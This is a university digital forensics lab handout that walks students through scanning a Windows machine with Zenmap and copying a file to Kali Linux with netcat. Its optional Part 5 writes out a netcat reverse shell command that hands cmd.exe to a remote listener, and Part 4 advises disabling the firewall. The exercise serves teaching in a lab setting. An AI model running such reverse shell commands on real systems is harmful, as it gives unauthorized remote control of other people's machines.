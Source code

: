 

## **INT311 - Basic Computer Skills for Digital Forensics – Lab 5**

### **Lab Title:**  
**Remote Evidence Acquisition and Digital Forensics Techniques**

---

### **Objective:**
This lab aims to provide students with hands-on experience in remote file acquisition, using network utilities and tools to access files on a Windows machine from a Kali Linux system. Students will learn about standard input/output/error devices and the use of tools like Zenmap and netcat for remote access and file transfers.

---

### **Part 1: Understanding Standard Input/Output/Error Devices**

1. **Standard Devices:**
   - Explain the concepts of standard input, standard output, and standard error devices in Linux.
   - Discuss how network utilities utilize these standard devices to communicate and process data.

   **Task:**
   - Write a short paragraph explaining how standard devices work in the context of command-line operations and networking.

---

### **Part 2: Setting Up Windows for Remote Access**

1. **Creating an Evidence File in Windows:**
   - On your Windows 10 machine, create a new text file named **`YourFirstLastNameEvidence.txt`**.
   - In the file, add the content: **`Hello [Your Name]!`**.

   **Task:**
   - Verify the file has been created successfully with the correct content.

2. **Restrictions on Direct Access:**
   - Note that you are not allowed to touch the Windows machine directly after creating the file. Instead, you will access it remotely from Kali Linux.

---

### **Part 3: Setting Up Kali Linux for Remote Access**

1. **Installing Necessary Tools:**
   - Ensure that **nmap** and **netcat** are installed on your Kali Linux system. If not, install them using:
     ```bash
     sudo apt update
     sudo apt install nmap netcat
     ```

2. **Using Zenmap:**
   - Open Zenmap on Kali Linux to perform a scan of the Windows machine to identify open ports and services. Input the Windows machine's IP address and scan for common ports.

   **Task:**
   - Document the scan results, focusing on any open ports related to file sharing or remote access (e.g., port 139 for SMB, port 445 for SMB over TCP).

---

### **Part 4: Establishing Remote Access**

1. **Using Netcat for Remote Access:**
   - On the Windows machine, you need to set up **netcat** to listen for incoming connections. Open a command prompt and run:
     ```cmd
     nc -l -p 12345 -w 10 < YourFirstLastNameEvidence.txt
     ```

   **Note:** Ensure that Windows Firewall allows this connection or temporarily disable it for this exercise.

2. **Connecting from Kali:**
   - On the Kali Linux machine, use netcat to connect to the Windows machine and acquire the file:
     ```bash
     nc [Windows_IP_Address] 12345 > YourFirstLastNameEvidence.txt
     ```

   **Task:**
   - After running the command, verify that **`YourFirstLastNameEvidence.txt`** has been successfully downloaded to the Kali system by checking its content:
     ```bash
     cat YourFirstLastNameEvidence.txt
     ```

---

### **Part 5: Reverse Shell Creation (Optional Advanced Task)**

1. **Establishing a Reverse Shell:**
   - For advanced users, set up a reverse shell from the Windows machine back to Kali. On Kali, listen for incoming connections:
     ```bash
     nc -l -p 12345
     ```

   - On Windows, execute the following command to create a reverse shell:
     ```cmd
     nc [Kali_IP_Address] 12345 -e cmd.exe
     ```

   **Task:**
   - Document the steps taken to establish the reverse shell and the commands you can run remotely.

---

### **Part 6: Digital Forensics and Remote Evidence Acquisition**

1. **Discussing Remote Evidence Acquisition:**
   - Define what remote evidence acquisition means in the context of digital forensics. Highlight the importance of maintaining evidence integrity and legal implications.

   **Task:**
   - Write a brief explanation (150-200 words) discussing the challenges and best practices of remote evidence acquisition.

---

### **Submission Requirements:**

- Submit a PDF document containing:
  - Screenshots of the commands executed and their outputs.
  - Summaries and explanations for each task completed.
  - Evidence of the successful file transfer and any additional notes from the reverse shell task.

- Ensure your document is well-organized, clearly labeled, and includes your name and student ID at the top.

---

### **Grading Criteria:**

- **Correctness:** Accuracy of file creation, network configurations, and command executions.
- **Clarity:** Clear explanations and documentation of the process.
- **Depth:** Thoroughness of explanations regarding remote access and digital forensics principles.
- **Documentation:** Professional presentation of findings with appropriate screenshots and organization.

---

### **Important Notes:**

- This lab emphasizes ethical considerations in digital forensics and the importance of legal compliance when accessing remote systems.
- Ensure you have permission to access and retrieve files from any remote machines used in this lab.

---

Good luck!